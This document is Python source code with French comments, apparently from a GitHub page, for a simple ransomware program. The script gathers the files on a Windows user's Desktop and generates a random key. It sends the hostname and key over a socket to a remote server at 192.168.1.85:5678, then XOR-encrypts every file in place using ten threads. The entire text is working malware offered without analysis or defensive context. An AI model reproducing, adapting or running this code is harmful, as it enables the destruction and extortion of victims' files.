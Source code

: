 import socket
import os
import threading
import queue
import random
import logging

# Configurer le logging
logging.basicConfig(filename='encryption.log', level=logging.DEBUG, format='%(asctime)s %(levelname)s:%(message)s')

# Fonction de chiffrement
def encrypt(file, key):
    try:
        key_index = 0
        max_key_index = len(key) - 1
        encrypted_data = bytearray()
        
        with open(file, 'rb') as f:
            data = f.read()
        
        for byte in data:
            xor_byte = byte ^ ord(key[key_index])
            encrypted_data.append(xor_byte)
            
            # Incrémenter l'index de la clé
            if key_index >= max_key_index:
                key_index = 0
            else:
                key_index += 1
        
        with open(file, 'wb') as f:
            f.write(encrypted_data)
        
        logging.info(f'{file} successfully encrypted')
    except Exception as e:
        logging.error(f'Failed to encrypt {file}: {e}')
        print(f'Failed to encrypt {file}: {e}')

# Informations de socket
IP_ADDRESS = '192.168.1.85'
PORT = 5678

# Informations sur le chiffrement
ENCRYPTION_LEVEL = 64  # 64 bytes for 512-bit encryption
key_char_pool = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ<>?,./[]{}|'
key_char_pool_len = len(key_char_pool)

# Préparer les fichiers à crypter
print("Preparing files...")
desktop_path = os.path.join(os.environ['USERPROFILE'], 'Desktop')
files = os.listdir(desktop_path)
abs_files = []
for f in files:
    if os.path.isfile(os.path.join(desktop_path, f)) and f != __file__[:-2] + 'exe':
        abs_files.append(os.path.join(desktop_path, f))
print("Successfully located all files!")

# Obtenir le nom d'hôte du client
hostname = os.getenv('COMPUTERNAME')

# Générer la clé de chiffrement
print("Generating encryption key...")
key = ''.join(random.choice(key_char_pool) for _ in range(ENCRYPTION_LEVEL))
print("Key Generated!!!")

# Se connecter au serveur pour transférer la clé et le nom d'hôte
try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((IP_ADDRESS, PORT))
        print('Successfully connected... transmitting hostname and key')
        s.send(f'{hostname} : {key}'.encode('utf-8'))
        print('Finished transmitting data!')
except Exception as e:
    logging.error(f'Failed to connect to server: {e}')
    print(f'Failed to connect to server: {e}')

# Créer la file d'attente des fichiers à crypter
q = queue.Queue()
for f in abs_files:
    q.put(f)

# Configurer les threads pour le chiffrement
for i in range(10):
    t = threading.Thread(target=lambda q, arg1: encrypt(q.get(), arg1), args=(q, key), daemon=True)
    t.start()

q.join()
print('Encryption and upload complete!!!')
input()
